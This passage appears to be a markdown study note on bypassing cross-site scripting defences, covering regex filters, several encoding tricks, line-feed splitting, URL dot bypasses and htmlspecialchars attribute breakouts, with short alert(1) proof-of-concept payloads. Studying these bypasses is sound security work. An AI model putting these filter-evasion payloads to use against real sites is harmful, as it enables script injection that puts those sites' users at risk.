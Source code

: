 ```php
```  
* filter with regex  
```php
preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET['hi'])
// <img src=1 onerror=alert(1)>
```
* encode (parse the dangerous char  
  * url encode: `% + ASCII(hex) %3Cscript%3E`  
  * http://www.jsfuck.com/  
  js func: `escape()/unescape()`, `encodeURL()/decodeURL()`, `encodeURLComponent()/decodeURLComponent()`  
  * html encode
  ```php
  htmlspecialchars($_GET['hi']);  // no open html tag for you
  ```  
  * unicode encode: %u + ASCII(hex) ASP,IIS will automatically parse unicode. `<%s%cr%u0131pt>`  
  * `IBM037`,`IBM500`,`IBM1026`,`cp875` [Bypass RequestValidation on aspx](https://github.com/shinmao/Web-Security-Learning/blob/master/SQL-inj/README.md#bypass-requestvalidation-on-aspx)  
  * ascii encode
  ```js
  eval(String.fromCharCode(97,108,101,114,116,40,49,41))
  // <script>alert(1)</script>
  ```
  [Encode_tool](http://monyer.com/demo/monyerjs/)  
  String.fromCharCode() converts unicode to string [Manual](https://www.w3schools.com/jsref/jsref_fromCharCode.asp)  
  eval() run the js script [Manual](https://www.w3schools.com/jsref/jsref_eval.asp)  
* length limit  
  import js from outside  
* Byass with line feed`\n`  
```js
<img src="javas
cript:
alert(/1/);">
```
* XSS filters  
* WAF  
* HTML Sanitizer  
* URL bypass `.`, `//`  
  RWCTF2018: `<?=ip2long("my-ip")` bypass dot，`\\` bypass `http://`  
  Sup: the first `/` is used to separate schema and path, the second `/` is part of path  
* CSP(Content-Security-Policy)  
  The content of CSP is in following :sweat:  

# htmlspecialchars bypass  
php nature function, can convert `&`,`'`,`"`,`<`,`>` five kinds of char to string. It won't filter out the single quote if it doesn't have the second parameter(`ENT_QUOTES`).  
1. `htmlspecialchars($input)` in `value`:  
```php
<input value="<" onclick=alert(1)>
```  
special chars are converted to pure string and close the `value` attribute  
2. If you can control the content encoding type, you can try such as UTF-7
